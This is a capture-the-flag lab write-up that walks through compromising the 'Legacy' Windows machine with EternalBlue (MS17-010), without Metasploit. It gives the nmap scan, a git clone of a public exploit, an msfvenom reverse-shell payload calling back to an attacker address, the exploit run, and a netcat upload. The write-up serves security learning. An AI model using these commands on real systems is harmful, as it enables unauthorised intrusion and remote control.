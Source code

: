 Legacy without Metasploit:

![Legacy](https://user-images.githubusercontent.com/55708909/91388528-2e9b1100-e855-11ea-9e19-33536c5bab8e.png)

Starting with Nmap Scan :

Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.4

![Legacy_nmap](https://user-images.githubusercontent.com/55708909/91389091-3f985200-e856-11ea-84e5-cd4c6331d2bc.png)
 As you can see that there are two ports open :
 1-Port 139
 2-Port 445

Therefore we will enumerate these ports.


I tried using basic tools but nothing seems to work so i run a vulnerability scan using nmap

![Legacy_vuln](https://user-images.githubusercontent.com/55708909/91391388-46739480-e857-11ea-95d0-1d3943d45251.png)

Nmap found us two vulnerability which can be exploited. 

1-MS08-067


2-MS17-010 (Eternal Blue)

I will be exploiting eternal blue using custom exploits from this git repo 

git clone https://github.com/helviojunior/MS17-010.git

cd MS17-010

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

open a netcat session on port 4444

Run these command : python send_and_execute.py 10.10.10.4 shell.exe and you will get a reverse shell on port 4444

![Legacy_shell](https://user-images.githubusercontent.com/55708909/91396814-f39adc80-e858-11ea-8a21-c25fa68f1066.png)


Since it does not have whoami features therefore we will upload nc.exe from our machine to target machine and get it executed.

![Legacy_flag](https://user-images.githubusercontent.com/55708909/91399730-20042800-e85c-11ea-8a3d-167ca4516724.png)










